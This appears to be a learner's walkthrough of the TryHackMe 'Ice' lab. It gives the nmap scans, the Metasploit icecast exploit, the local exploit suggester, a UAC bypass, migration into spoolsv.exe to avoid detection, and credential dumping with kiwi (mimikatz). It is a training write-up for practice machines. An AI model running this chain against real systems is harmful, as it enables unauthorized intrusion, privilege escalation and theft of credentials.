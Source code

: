 # ICE Room TryHackMe review.

## Tools i learnt in this challenge

1. nmap

2. metasploit

3. mimikatz - kiwi

## First Steps

- Performing a network scan to check open ports and determine entry route.
  
  - `nmap -A -T4 10.10.172.100`

- perform a vulnerability scan with nmap
  
  - `nmap --script vuln 10.10.172.100`

- The vuln scan gave me ms17-010 as vulnerable but that was for before, i can still see icecast and ms-rdp-server.
  
  - running a custom nmap script to check vulnerability in ms-rdp-server. `nmap -sV --script=rdp-vuln-ms12-020 -p 3389 10.10.172.100`
  
  - And the results are vulnerability present.

- Let me spool up msfconsole to check for potential exploits present.
  
  - in msfconsole `search ms12-020`
    
    - i get auxilliary scanner and dos, these are not exploits but rather provide more info about it.
  
  - let me search for icecast now `search icecast`.
    
    - i get an exploit for the icecast_header
  
  - let's use the new exploit `use 0` and provide all the necessary information needed `show options`, `set rhosts 10.10.172.100`
  
  - and we are now it, we can see that because of the `metepreter` meaning we have an active session.
  
  - We are in another users account, not in root.

- privilege escalation
  
  - we need to check which is the best exploit in order to gain privilege, we run 
    
    - `search exploit_suggester`
    
    - we get the result as `post/multi/recon/local_exploit_suggester`
    
    - for options we need to set, we need the session id of our meterpreter session. That we get by `sessions -l`, we then set the session `set session 1`
    
    - after running, we get the available exploits we can use for our mission. `exploit/windows/local/bypassuac_eventvwr`. we need to set the options `set session 1` and run it.
    
    - we have a second meterpreter session, by checking `getuid` we are still not root, but is we check `getprivs` we see we have expanded permissions allowing us to escalate.
    
    - to become root, we need to migrate into a service that has the permissions that we need to interact with lsass. any prcocess with 'NT AUTHORITY\SYSTEM' will work, but we have to choose a service that wont raise any flags.
    
    - we need to migrate the process in order to be root. `migrate -N spoolsv.exe`
    
    - when we run `getuid` we are root.
  
  - looting, to get passwords, we need mimikatz or rather kiwi which is the updates version. `load kiwi`
  
  - to retrieve all the credentials present, we use `creds_all`

- well the system if ours so simply typing `help` and we can do whatever we want with the machine.


